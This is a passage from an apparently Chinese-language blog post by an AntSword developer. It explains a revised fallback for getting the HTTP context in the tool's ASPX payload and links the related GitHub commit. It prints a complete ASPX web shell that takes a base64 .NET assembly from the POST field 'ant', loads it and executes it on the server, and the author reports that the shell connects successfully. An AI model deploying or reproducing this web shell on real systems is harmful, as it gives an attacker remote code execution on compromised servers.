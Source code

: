 ```cpp
                catch (Exception)
                {
                    HttpContext context = HttpContext.Current;
                    this.Response = context.Response;
                    this.Request = context.Request;
                }
            }
        }
```

改版后我们去掉了兼容性不强的Page方式，如果数组方式跟Context都无法获取的话，就尝试通过HttpContext.Current来拿到当前的Context。

所以其实在shell中直接Equals(null)，或者一个随意对象即可。

```cpp
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(null);
    }
%>
```

同样可以连接成功

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1641130099163-935e8777-5494-41e2-b096-4f49a802e7bb.png)

至于为什么没有把原来的入口参数方式全部都去掉，是因为新类型并没有在实战环境中测试过。不知道会不会有一些特殊情况。为了谨慎起见，还是保留了原来的入口参数。



## 最后

个人喜欢开发一些工具，同时记录下自己的碎碎念。如果能对你有帮助，那就最好不过了。

github地址：https://github.com/AntSwordProject/antSword/commit/d2d848c89e03088c20cc31f411e73fe2dd2973ea
